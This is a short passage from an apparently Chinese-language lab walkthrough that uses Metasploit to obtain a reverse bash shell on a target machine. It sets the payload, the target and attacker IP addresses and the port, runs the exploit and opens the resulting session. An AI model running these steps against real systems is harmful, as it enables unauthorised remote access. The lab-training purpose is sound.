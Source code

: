 选择一个需要的 `payload`使用并根据参数列表的内容修改靶机和攻击机的参数

```bash
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.131.10   #靶机IP
set RPORT  30947    #靶机目标端口  
set LHOST  192.168.131.6   #攻击者主机IP 
```

检查配置的参数,发现已经得到修改：

![](./img/检查参数设置.png)

执行攻击，如果攻击成功，按照 payload 的内容可以获得靶机的 shell:

```bash
run -j 
```

![](./img/靶口获得shell.png)

使用 `sessions`命令查看列表，打开 `shell`执行命令
